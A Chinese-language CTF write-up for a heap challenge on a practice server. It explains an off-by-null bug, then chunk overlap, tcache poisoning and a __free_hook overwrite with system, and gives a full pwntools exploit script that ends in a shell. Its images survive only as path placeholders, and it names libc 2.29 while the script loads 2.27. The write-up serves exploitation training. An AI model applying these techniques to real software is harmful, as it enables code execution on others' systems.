






## 保护策略：




## 漏洞所在：




在edit函数中存在一个off by null漏洞。

## 程序分析：




在add函数中，对malloc申请的内存大小做了限制，需要小于0x100并且大于0x7f的堆块才行，然后索引我们可以使用0到31(32没法用，因为这里的len[32]和heap[0]是一个内存单元，如果用了32，那么len[32]就有数据了，到了申请索引为0号堆块的时候，heap[0]有内容，就会进入if程序退出)


edit函数中存在一个off by null，并且有个key1的限制，导致了edit函数只能执行两次。

show函数表面感觉能使用，但是key2在bss段，默认值为0，所以show函数我们无法正常使用(如下图)




delete函数可以无限次使用，但是不存在漏洞。


## 大致思路：

程序的libc版本为2.29,我们常规打一个off by null做一个堆块重叠，但是由于我们无法直接释放掉堆块让其进入unsorted bin(而off by null做的堆块合并需要让堆块位于unsorted bin中)，所以在这之前我们需要tcachebin中填满堆块(不必担心索引的问题，我们有32个索引可以用，同时delete函数还可以清空索引中内容)

然后打一个off by null，此时的堆块布局应该如下：

这个merge chunk的prev size被修改为了0x200  (merged chunk之所以可以进入unsorted bin中是因为在这之前tcahce bin中已经装了七个chunk了)




然后我们释放掉merge chunk，触发合并，打一个堆块重叠，然后做一个double free出来。接着打tcache poisoning,我们去将堆块的fd指针去修改为0x6021d0这个地址，因为这个地址既属于我们的heap指针数组，同时加上0xf0后还可以去修改key1和key2。

(其实这道题看见key这个名字同时联想下key1和key2的作用，很容易想到去篡改这两个值，不然edit用不了，我们之后的各种手法都会失效，而修改key2还可以使用show函数)，但如果仅仅是修改key值的话，就导致了我们之后还要再打一遍off by null，但是0xf0这个链已经成-1坏掉了，应该就没法利用了(我没有仔细考虑这种方法，但是我试了下，这0xf0链坏掉之后，off by null就没法再打一次了，如果最开始做三个相同的堆块地址，保证0xf0的这个链不会在第一次打个double free就坏掉，应该也可以利用(但是我没有试，这只是我的一个思路))

但是我当时看了下bss段存储的数据，发现可以同时控制key1、key2和heap指针数组里的内容，就是申请到0x6021d0这个地址，这个地址位于heap[31]，我们先申请出来修改key1和key2的值，然后执行show函数拿到libc地址，再去往0x6021d0这个地址上写入free_hook的地址，最后编辑heap[31]这个块，写入system的地址即可。


## EXP:
[tools源码](https://www.cnblogs.com/ZIKH26/articles/16307343.html)
```py
from tools import *
context.log_level='debug'
d_d=0x400DEE
d_a=0x400DE2
d_e=0x400DFA
d_s=0x400E06
p,e,libc=load("a","node4.buuoj.cn:27970")
libc=ELF('/home/hacker/Desktop/buu64-libc-2.27.so')

def add(index,size,content):
    p.sendlineafter('4.show\n',str(1))
    p.sendlineafter('index:\n',str(index))
    p.sendlineafter('size:\n',str(size))
    p.sendafter('content:\n',content)


def edit(index,content):
    p.sendlineafter('4.show\n',str(3))
    p.sendlineafter('index:\n',str(index))
    p.sendafter('content:\n',content)


def delete(index):
    p.sendlineafter('4.show\n',str(2))
    p.sendlineafter('index:\n',str(index))
    
def show(index):
    p.sendlineafter('4.show\n',str(4))
    p.sendlineafter('index:\n',str(index))


def pwn():
    add(31,0xf8,'y')
    for i in range(7):
        add(i,0xf0,'a')
    add(7,0xf0,'b')#merged chunk
    add(8,0xf8,'c')#overflow chunk
    add(9,0xf0,'d')#merged chunk
    add(10,0xf0,'e')#prevent chunk
    
    for i in range(7):
        delete(i)   
    delete(7) 
    edit(8,b'f'*0xf0+p64(0x200))
    delete(9)#off by null，触发堆块合并

    for i in range(7):
        add(i,0xf0,'a')#将tcache bin给清空，给接下来的tcache poisoning做准备
    
    add(11,0xf0,'g')
    add(12,0xf0,'h')

    delete(8)
    delete(12)
    add(13,0xf0,'i')
    edit(13,p64(0x6021d0))#tcache poisoning
    add(14,0xf0,b'/bin/sh\x00')

    add(15,0xf0,p64(0)*29+p32(1)+p32(3))#修改两个key
    
    delete(0)
    delete(1)

    add(0,0xe0,'u'*8)
    show(0)
    leak_libc=recv_libc()
    libc_base=leak_libc-0x3ebd90
    log_addr('libc_base')
    free_hook=libc_base+libc.symbols['__free_hook']
    sys_addr=libc_base+libc.symbols['system']
    edit(15,p64(0)+p64(free_hook))
    #debug(p,d_a,d_d,d_e,d_s,0x400A25) 
    edit(31,p64(sys_addr))
    delete(14)
    p.interactive()

pwn()
```

